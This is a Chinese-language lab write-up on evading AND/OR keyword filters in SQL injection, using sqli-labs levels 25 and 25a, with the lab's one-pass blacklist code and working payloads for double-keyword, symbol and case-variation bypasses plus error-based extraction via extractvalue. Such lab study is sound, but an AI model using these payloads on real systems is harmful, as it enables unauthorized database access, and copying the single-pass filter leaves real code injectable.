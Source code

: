 ```yaml
---
title: 绕过and与or过滤
toc: true
description: 本文通过 sqli-lab 25及25a来学如何应对 and 与 or 的过滤。
categories:
    - websec
    - sql injection
date: 2019-08-04 09:02:03
tags:
---
```


# 绕过方式

以下绕过方式基本按照实用程度（好用程度）排序

## or 绕过方式

### 符号绕过：||

注意：|| 直接使用就行，它不属于 url 中需要被转移的那种。

符号可以绕过的原因是 waf 一般只检测 and 和 or 的单词关键字，不检测对应数学符号。当然，要是 waf 过滤了它们，这种绕过也就不管用了，比如：本关可以在 blacklist 中加入以下代码，便过滤了& 和 |

    $id= preg_replace('/\\|/',"", $id);
    $id= preg_replace('/\\&/',"", $id);

### 双字符绕过：oorr

一次过滤，检测到中间的 or，去掉它，然后还剩下 o 和 r，正好组成一个 or，所以可以绕过。双字符应用了开发人员只进行一次过滤而不循环过滤的过失，当然，如果开发人员进行循环过滤，那么这种绕过方式就不管用了。

比如：本关的源码，就只是用一次过滤。

```php
$id= blacklist($id);
//中间省略好多行
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)

return $id;
}
```

### 大小写变形：Or,Or,or

一般用来绕过那些只检测 and 和 or，而不检测别的大小写形式（即：使用正则时，没有用 i 选项，忽略大小写进行匹配），当然，如果开发者使用正则时加了 i 选项，那这种绕过方式就失效了。这种方法不太管用（因为好多 waf 都不缺分大小写。）

## and 绕过方式

### 双字符：anandd

### 符号绕过:&&

注意：&& 不能直接使用，需要对他进行 url 编码，因为 &在 url 中有特殊用法：连接 get 请求的键值对。所以，就像 # 一样，在 url 中 # 号是用来指导浏览器动作的（例如锚点），所以使用它的时候也要进行 url 编码

### 大小写 aNd,AND,等

# 关键步骤

## 检测注入点

加个单引号，回显如下：

> **Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **C:\phpStudy\WWW\sqli-labs\Less-25\index.php** on line **39**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

嗯，有语句报错，真好。根据 '1'' LIMIT 0,1，我们得知，单引号包裹，后面有语句。

尝试加个注释，嗯，加了之后，不报错了，证明没有过滤注释。

## 猜字段

?id=1' order by 3--+

报错：

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'der by 3-- ' LIMIT 0,1' at line 1

可以看出 or 被过滤了（or 和 and 往往一起，开发人员想到过滤其一，就会想到另一个。因此，我们有理由相信 and 也被过滤了。）。

这里采用双字符，因为过滤 or，却影响到了 order by 中的 or，这是不怎么好的过滤（我认为），当然，还有其他一些类似的情况，比如：information 中的 or

?id=1' oorrder by 2 --+
不报错，显示正常，绕过成功。

后面使用 union 查询注入就行了。

# 报错注入

下面使用报错注入对 and/or 过滤注入进行进一步讲解。

双字符绕过：

?id=-1' oorr extractvalue(1,concat(0x23,(select schema_name from infoorrmation_schema.schemata limit 0,1))) --+

这里注意：information 中的 or 也要双字符。

?id=-1' anandd extractvalue(1,concat(0x23,concat(version())))--+

符号绕过：

?id=-1' || extractvalue(1,concat(0x23,concat(version())))--+

?id=-1' %26%26 extractvalue(1,concat(0x23,concat(version())))--+

注意：&&要使用 url 编码

